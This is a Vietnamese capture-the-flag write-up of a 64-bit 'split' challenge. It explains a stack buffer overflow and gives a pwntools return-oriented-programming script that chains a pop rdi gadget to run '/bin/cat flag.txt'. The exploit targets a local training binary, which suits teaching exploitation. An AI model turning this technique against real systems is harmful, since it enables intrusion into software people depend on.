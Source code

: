 **1. Tìm lỗi**

Dùng lệnh 'file' kiểm tra file 

![file.png](photo/file.png)

Ta thấy là file 64bit -> Mở ida64 ta có một số hàm như sau

Hàm main:

![main.png](photo/main.png)

Hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo tối đa 32 byte nhưng chương trình cho phép nhập 0x60 = 96 byte

Hàm usefulFunction:

![use.png](photo/use.png)

Ở hàm usefulFunction ta thấy có câu lệnh syscall nên có thể tận dụng để thực hiện với các chuỗi có sẵn trong chương trình

Tìm kiếm các chuỗi ta thấy như sau: 

![chuoi.png](photo/chuoi.png)

Ta có được địa chỉ chuỗi /bin/cat flag.txt: 0x00601060

**2. Ý tưởng**

Để thực hiện được syscall('/binn/cat flag.txt') thì chúng ta cần chuyển địa chỉ chuỗi /bin/cat flag.txt vào thanh ghi rdi. Mà để ghi vào thanh ghi rdi thì chúng ta cần tìm kiễm địa chỉ câu lệnh pop rdi

![rdi.png](photo/rdi.png)

Địa chỉ câu lệnh rdi là: 0x00000000004007c3

**Viết script**

![s.png](photo/s.png)

Ta thấy khoảng cách từ biến s đến ret là: 0x20 + 0x8

Ta có script như sau: 

```
from pwn import *

r = process("./split")

syscall = 0x000000000040074b
cat_flag = 0x00601060
pop_rdi = 0x00000000004007c3

payload = b'a'*40
payload += p64(pop_rdi)
payload += p64(cat_flag)
payload += p64(syscall)
r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
